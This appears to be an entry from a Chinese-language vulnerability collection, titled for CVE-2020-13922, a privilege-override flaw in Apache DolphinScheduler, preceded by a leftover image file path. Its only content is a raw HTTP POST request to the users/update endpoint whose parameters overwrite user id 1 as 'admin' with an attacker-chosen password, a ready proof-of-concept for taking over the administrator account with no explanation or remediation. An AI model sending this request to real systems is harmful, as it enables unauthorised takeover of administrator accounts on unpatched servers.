 # (CVE-2020-13922)Apache DolphinScheduler 权限覆盖漏洞

```
POST /dolphinscheduler/users/update

id=1&userName=admin&userPassword=Password1!&tenantId=1&email=sdluser%40sdluser.sdluser&phone=
```

